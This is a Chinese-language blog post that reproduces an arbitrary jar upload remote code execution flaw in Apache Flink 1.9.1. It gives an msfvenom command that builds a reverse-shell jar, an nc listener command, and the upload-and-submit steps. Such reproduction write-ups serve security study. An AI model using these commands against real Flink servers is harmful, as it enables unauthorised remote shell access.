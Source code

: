 ```yaml
---
title:  Apache Flink 任意 Jar 包上传致 RCE 漏洞复现
date: 2019-11-17 14:03:23
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - Apache Flink
    - RCE
    - 漏洞复现
---
```

# 0x00 漏洞概述
Flink核心是一个流式的数据流执行引擎，
其针对数据流的分布式计算提供了数据分布、数据通信以及容错机制等功能。
基于流执行引擎，Flink提供了诸多更高抽象层的API以便用户编写分布式任务。
可部署在各种集群环境，对各种大小的数据规模进行快速计算。

# 0x01影响版本

**Apache Link < 1.9.1 (当前最新)**

# 0x02 漏洞复现
## 环境搭建
测试环境：

* win10
* Flink 1.9.1    
* java8


首先下载Apache Flink 1.9.1[Apache Flink 1.9.1](https://www.apache.org/dyn/closer.lua/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz%0A)

下载后解压，进入`bin`目录，运行`start-cluster.bat`批处理文件
然后访问`127.0.0.1:8081`即可

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191117141151.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191117141240.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191117141414.png)

## 漏洞利用
### 生成payload

使用`msfvenom`生成payload，确保生成的`LHOST`地址靶机可以访问
生成的`jar`包名字随意

`msfvenom -p java/shell_reverse_tcp LHOST=x.x.x.x LPORT=x -f jar >test.jar`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191117142803.png)

### 开始监听
使用`nc`监听端口

`nc -lvvp 9999`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191117143145.png)

### 上传payload

在`Submit New Job`处点击`+ Add New`上传rec.jar文件

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191117143440.png)

点击名称展开，然后点击`Submit`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191117143618.png)


### 反弹shell

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191117151631.png)

# 参考文章

[Apache Flink 任意 Jar 包上传致 RCE 漏洞复现](https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247483983&idx=1&sn=3dfebb1f2289549a71e821dd977ea3dc)
[Apache Flink远程代码执行预警](https://mp.weixin.qq.com/s?__biz=Mzg4NTA0MDg2MA==&mid=2247483956&idx=1&sn=fa18ba01ba064d4fc6b821de46274f90)
